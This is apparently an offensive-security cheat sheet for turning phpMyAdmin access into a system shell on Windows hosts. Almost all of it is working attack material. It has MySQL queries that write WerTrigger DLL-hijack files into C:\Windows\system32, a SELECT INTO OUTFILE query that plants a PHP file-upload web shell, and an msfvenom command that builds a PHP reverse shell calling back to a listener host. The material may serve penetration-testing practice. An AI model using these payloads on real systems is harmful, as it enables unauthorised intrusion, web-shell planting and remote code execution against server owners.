 ### default port
80
### default url
http://ip:port/phpmyadmin
### phpmyadmin admin account to get system shell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md  
![image](https://github.com/KiritoLoveAsuna/WebApplicationSecurity/assets/38044499/2ff1fa35-dabd-4094-b6f1-8c4bfa05b076)   
Now, we are going to use the Privileged Write to move all of these files to C:\windows\system32 using MySQL.
```
select load_file('C:\\xampp\\htdocs\\phoneinfo.dll') into dumpfile 'C:\\Windows\\system32\\phoneinfo.dll';
select load_file('C:\\xampp\\htdocs\\Report.wer') into dumpfile 'C:\\Windows\\system32\\Report.wer';
select load_file('C:\\xampp\\htdocs\\WerTrigger.exe') into dumpfile 'C:\\Windows\\system32\\WerTrigger.exe';
```
![image](https://github.com/KiritoLoveAsuna/WebApplicationSecurity/assets/38044499/31df7857-e1f2-481d-88af-82142a8d164f)  
Now we can move into C:\windows\system32 and execute WerTrigger.exe

### Uploading shell via phpmyadmin
wamp root directory: C:\wamp\www
```
SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';
```
Then access http://ip:port/uploader.php
```
msfvenom -p php/reverse_php LHOST=192.168.49.57 LPORT=443 -f raw -o shell.php
access http://ip:port/shell.php
```
